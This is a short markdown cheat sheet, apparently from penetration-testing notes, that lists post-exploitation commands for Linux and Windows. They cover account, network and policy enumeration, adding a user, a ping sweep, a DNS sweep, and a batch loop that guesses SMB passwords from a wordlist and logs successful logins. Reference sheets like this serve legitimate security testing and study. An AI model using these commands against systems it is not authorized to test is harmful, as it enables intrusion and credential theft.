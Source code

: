```yaml
---
title: Landing Commands
category: Post-Exploitation
order: 2
---
```


> **Linux* 

Kernal version  | uname -r
Determine Account | whoami
Add User | useradd -d [home_dir] [login name]
Privilidges | id
Network Activity | netstat -natu
ARP Cache | arp -a
Routing Table | netstat -nr
Lockout Policy | grep tally /etc/pam.d/* <br> grep tally /etc/pam.conf"

> **Windows* 

Determine Account | whoami, set username
DNS Cache | ipconfig /displaydns
Arp Cache | arp -a
Network Activity | netstat -na | find "ESTABLISHED"
Processes | tasklist
Services | sc query
Inventory Software | dir /s  c:\Program Files > inventory.txt <br>
dir /s ""c:\Program Files (x86)"" >> inventory.txt <br>
set path
Routing Table | netstat -nr
List Users | net user or wmic useraccount list brief
List Groups | net localgroup
List Administrators | net localgroup administrators
List Password and Lockout Policy | net accounts or net accounts /domain
Ping Sweep | for /L %i in (1, 1, 255) do @ping -n 1 192.168.2.%i | find "TTL"
DNS Lookup | for /L %i in (1, 1, 255) do @echo 10.10.10.%i & nslookup 10.10.10.%i  2>nul | find "Name"
Password Guess | for /f %i in (password.lst) do @echo %i & @net use \\[tartet_IP_addr] %i /u:[UserName] 2>nul && echo [UserName]: %i >> success.txt






